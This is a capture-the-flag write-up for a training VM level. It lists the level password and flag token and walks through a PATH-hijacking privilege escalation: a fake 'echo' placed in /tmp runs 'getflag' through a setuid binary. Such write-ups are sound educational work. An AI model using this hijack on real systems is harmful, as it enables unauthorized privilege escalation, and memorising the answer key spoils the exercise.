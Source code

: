 # Level03 - Flag03

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level03 | `kooda2puivaav1idi4f57q8iq` |
| flag03  |                             |
| token   | `qi0maab88jeaj46qoumi7maus` |

## Steps to resolve on VM

1. Connect to `level03` user and check the repo to find an executable with 's'(setuid) permission

```bash
su level03
# Enter the token

ls -l
> total 12
> -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

# The 's' means that by executing this 'level03',
# we will get the persmissions of the individual or group that owns the file (here the 'flag03' user)
./level03
> Exploit me

# By trying to display the file content, we can see the executed command
cat level03
[...]
usr/bin/env echo Exploit me
[...]
# 'echo Exploit me' executed with the 'usr/bin/env' command
```

2. Exploit that 's' permission to force 'level03' file to execute 'getflag' command

```bash
# First create a fake 'echo' command that will execute 'getflag'
echo "getflag" > /tmp/echo
# And give it execute permission
chmod +x /tmp/echo

# 'level03' executes 'usr/bin/env' command,
# so we need to trick it and replace the 'echo' command with our fake one by adding it at the beginning of PATH
PATH=/tmp:$PATH
```

3. Now execute 'level03' which will use our fake 'echo' to get the flag

```bash
./level03
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## Sources

### SHELL

- [What does s permission means ?](https://askubuntu.com/questions/431372/what-does-s-permission-means#:~:text=s%20(setuid)%20means%20set%20user%20ID%20upon%20execution.&text=In%20this%20s%20permission%20was,user%2DID%20mode%20is%20set.)
- [What is /usr/bin/env](https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line#:~:text=env%20is%20the%20name%20of%20a%20Unix%20program.&text=Therefore%2C%20%2Fusr%2Fbin%2F,that%20contains%20the%20python3%20executable.)
- [How to add directory at beginning of PATH](http://www.troubleshooters.com/linux/prepostpath.htm)
